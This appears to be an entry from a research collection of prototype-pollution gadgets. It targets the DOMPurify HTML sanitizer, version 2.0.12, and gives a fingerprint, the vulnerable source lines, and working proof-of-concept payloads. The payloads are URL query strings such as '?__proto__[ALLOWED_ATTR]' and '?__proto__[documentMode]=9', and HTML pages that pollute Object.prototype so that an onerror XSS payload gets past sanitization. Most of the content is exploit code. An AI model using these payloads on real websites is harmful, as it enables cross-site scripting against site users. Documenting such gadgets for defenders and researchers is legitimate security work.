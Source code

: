## DOMPurify

URL: https://github.com/cure53/DOMPurify/

### JS Fingerprint
```
return (DOMPurify !== 'undefined')
```

### Vulnerable code fragment
https://github.com/cure53/DOMPurify/blob/3c610449ecf34da4acb6947c8e08ab1fcb3baea8/dist/purify.js
```js
DOMPurify.isSupported = implementation && typeof implementation.createHTMLDocument !== 'undefined' && document.documentMode !== 9;
...
ALLOWED_TAGS = 'ALLOWED_TAGS' in cfg ? addToSet({}, cfg.ALLOWED_TAGS) : DEFAULT_ALLOWED_TAGS;
```

### PoC

#### ALLOWED_ATTR

```
?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src
```

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.12/purify.min.js"></script>
<script>
  Object.prototype.ALLOWED_ATTR = ['onerror', 'src']
</script>
<script>
  document.write(DOMPurify.sanitize('<img src onerror=alert(1)>'))
</script>
```

#### documentMode

```
?__proto__[documentMode]=9
```

```html
<script>
  Object.prototype.documentMode = 9
</script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.0.12/purify.min.js"></script>
<script>
  document.write(DOMPurify.sanitize('<img src onerror=alert(1)>'))
</script>
```